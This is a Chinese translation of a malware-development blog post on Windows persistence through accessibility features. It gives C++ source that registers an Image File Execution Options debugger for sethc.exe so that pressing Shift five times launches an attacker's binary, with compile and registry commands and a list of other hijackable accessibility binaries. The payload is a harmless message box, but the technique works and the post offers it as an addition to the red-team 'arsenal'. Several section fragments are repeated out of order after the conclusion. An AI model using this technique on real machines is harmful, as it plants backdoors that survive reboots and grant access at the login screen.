









\newpage
\subsection{恶意软件开发：持久化（第 12 部分）——辅助功能（简单的 C++ 示例）}

这篇文章是我自己对另一个管理员级别的恶意软件持久化技巧的研究结果：通过辅助功能（Accessibility Features）实现持久化。

{width="80%"}

在前面的一篇文章中，我写过通过映像文件执行选项（Image File Execution Options）实现持久化。

然后只需要把恶意应用程序存放在 System32 中即可。

今天我只不过把受害进程换成了 `sethc.exe`。

但 `sethc.exe` 是什么呢？

原来它负责粘滞键（sticky keys）。

连续按 5 次 Shift 键就会启用粘滞键：

{width="80%"}

被执行的不再是合法的 `sethc.exe`，而是「流氓 `sethc.exe`」——和往常一样，为了简单起见，它就是一个 meow 消息框。

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
  // create new registry key
  // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
  // Execution Options\sethc.exe" /v Debugger /d "hack.exe"
  RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
  strlen(exe));
  RegCloseKey(hkey);
  }

  return 0;

```

Meow-meow 消息框：

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;

```

### 演示

我们来看看一切的实际运行。

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\
Image File Execution Options" /s
```

{width="80%"}

然后，编译我们的 `pers.cpp`：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

运行并再次检查注册表项：

**你需要拥有管理员权限，才能替换该工具原生的 Windows 二进制文件**

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
Execution Options\sethc.exe" /s
```

{width="80%"}

最后，连续按 5 次 Shift 键：

{width="80%"}

再看看 `hack.exe` 的属性：

{width="80%"}

{width="80%"}

完美！=..=

实验结束后，为了清理，运行：

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image 
File Execution Options\sethc.exe" -Force -Verbose
```

{width="80%"}

### 结论

Windows 辅助功能是一组可以通过 Windows 登录屏幕访问的工具（例如粘滞键）。

Utility Manager（实用工具管理器）

`C:\Windows\System32\Utilman.exe`

触发方式：Windows 键 + U

On-Screen Keyboard（屏幕键盘）

`C:\Windows\System32\osk.exe`

触发方式：点击屏幕键盘按钮

Magnifier（放大镜）

`C:\Windows\System32\Magnify.exe`

触发方式：Windows 键 + =

Narrator（讲述人）

`C:\Windows\System32\Narrator.exe`

触发方式：Windows 键 + Enter

Display Switcher（显示切换器）

`C:\Windows\System32\DisplaySwitch.exe`

触发方式：Windows 键 + P

当 APT 组织利用这些 Windows 功能来给目标 PC 植入后门时，这些功能就变得广为人知了。

例如，APT3、APT29 和 APT41 都使用过粘滞键。

我希望这篇文章能让蓝队成员了解这个有趣的技巧，并为红队成员的武器库增添一件武器。

在其中一个 PoC 示例里，我们只是在这个注册表项中为受害进程创建了一个调试器：

### 实战示例：sethc.exe

源代码非常相似（`pers.cpp`）：

先检查注册表项：

一些辅助功能及其对应的触发方式和位置包括：
